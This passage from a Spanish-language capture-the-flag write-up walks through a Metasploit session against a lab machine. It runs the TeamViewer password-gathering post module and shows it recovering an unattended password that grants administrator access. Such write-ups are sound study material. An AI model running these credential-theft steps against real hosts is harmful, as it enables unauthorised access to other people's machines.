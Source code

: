 Excelente, ahora, busquemos un Exploit para el **TeamVIewer**, lo cargamos para usarlo en la sesión actual y lo ejecutamos:

* Buscando Exploit, usamos el módulo que obtiene las contraseñas del **TeamViewer**:

```bash
msf6 exploit(multi/script/web_delivery) > search teamviewer
Matching Modules
================
   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  auxiliary/server/teamviewer_uri_smb_redirect                           normal  No     TeamViewer Unquoted URI Handler SMB Redirect
   1  post/windows/gather/credentials/teamviewer_passwords                   normal  No     Windows Gather TeamViewer Passwords
```

* Cargando Exploit:
```bash
msf6 exploit(multi/script/web_delivery) > use post/windows/gather/credentials/teamviewer_passwords
msf6 post(windows/gather/credentials/teamviewer_passwords) > show options
*
Module options (post/windows/gather/credentials/teamviewer_passwords):
   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   SESSION                        yes       The session to run this module on
   WINDOW_TITLE  TeamViewer       no        Specify a title for getting the window handle, e.g. TeamViewer
```

* Ejecutando Exploit:
```bash
msf6 post(windows/gather/credentials/teamviewer_passwords) > set sessions 1
msf6 post(windows/gather/credentials/teamviewer_passwords) > exploit
.
[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /root/.msf4/loot/20240326213319_default_10.10.10.180_host.teamviewer__831643.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are ''
[*] TeamViewer's version is ''
[-] Unable to find TeamViewer's process
[*] Post module execution completed
```

De esta forma, obtuvimos la contraseña que necesitamos para poder conectarnos a la máquina víctima como **administrador**, que fue lo mismo que hicimos al principio para obtener la contraseña del **TeamViewer**.


<br>
<br>
<div style="position: relative;">
	<h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>
